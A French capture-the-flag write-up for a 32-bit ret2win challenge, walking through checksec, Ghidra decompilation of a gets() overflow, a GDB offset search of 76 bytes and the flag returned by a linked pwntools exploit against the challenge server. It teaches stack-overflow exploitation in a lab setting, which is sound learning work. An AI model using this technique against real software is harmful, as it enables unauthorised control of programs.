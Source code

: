 # Pwn0x01

```md
return to win!!!

nc 35.180.44.229 1235
```

On comprends à la description qu'il va s'agir d'un ret2win. [L'exécutable](./task_new) est fournit vérifions si des sécurités sont activées :

```console
$ checksec --file=task_new
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols	  No	0		3	task_new
```

Visiblement pas de PIE ni de canary, essayons le :

```console
$ ./task_new 
hey Morty give an adress for my portal Gun
AAAA
```

Le programme nous demande une saisie et s'arrête, essayons de le reverse pour mieux le comprendre.

## Analyse statique

Avec Ghidra on retrouve ces trois fonctions :

```C
undefined4 main(void)
{
  ignore_me_init_buffering(&stack0x00000004);
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("hey Morty give an adress for my portal Gun");
  portalGun();
  return 0;
}
```

```C
void portalGun(void)
{
  char local_4c [68];
  
  gets(local_4c);
  return;
}
```

```C
void callMe(int param_1)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("No flag contact an admin.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
  return;
}
```

La fonction `main` ne nous intéresse pas trop elle ne fait qu'appeler `portalGun`, qui elle par contre est vulnérable à un buffer overflow :

```C
  char local_4c [68];
  
  gets(local_4c);
```

Et enfin `callMe` va gentillement aller chercher le flag pour nous :

```C
  local_10 = fopen("flag.txt","r");
```

Puis nous l'affiche à condition de l'appeler avec `0xdeadbeef` en argument :

```C
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
```

Il va donc falloir utiliser le buffer overflow de `portalGun` pour appeler `callMe` avec le bon argument.

## Analyse dynamique

Cherchons l'offset nécessaire pour rediriger l'exécution du programme sous GDB :

```gdb
gef➤  disas portalGun 
Dump of assembler code for function portalGun:
   0x080486a5 <+0>:	push   ebp
   0x080486a6 <+1>:	mov    ebp,esp
   0x080486a8 <+3>:	push   ebx
   0x080486a9 <+4>:	sub    esp,0x44
   0x080486ac <+7>:	call   0x8048729 <__x86.get_pc_thunk.ax>
   0x080486b1 <+12>:	add    eax,0x194f
   0x080486b6 <+17>:	sub    esp,0xc
   0x080486b9 <+20>:	lea    edx,[ebp-0x48]
   0x080486bc <+23>:	push   edx
   0x080486bd <+24>:	mov    ebx,eax
   0x080486bf <+26>:	call   0x8048430 <gets@plt>
   0x080486c4 <+31>:	add    esp,0x10
   0x080486c7 <+34>:	nop
   0x080486c8 <+35>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080486cb <+38>:	leave
   0x080486cc <+39>:	ret
End of assembler dump.

gef➤  br *portalGun+39
Breakpoint 1 at 0x80486cc

gef➤  r <<< $(python3 -c 'print("A"*76+"B"*4)')
```

```gdb
──────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "task_new", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

Le programme crash car il n'arrive pas à accèder à l'adresse que nous avons injecter : il faudra un offset de 76 bytes.

## Exploit

PIE est désactivé nous pouvons donc utiliser cette addresse de `portalGun` :

```console
gef➤  info func portalGun
All functions matching regular expression "portalGun":

Non-debugging symbols:
0x080486a5  portalGun
```

Et ce [script](./exploit.py) nous permet d'envoyer notre payload à l'aide `pwntools` :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1235: Done

b'StarHack{YOU_WON!!}\n'

[*] Closed connection to 35.180.44.229 port 1235
```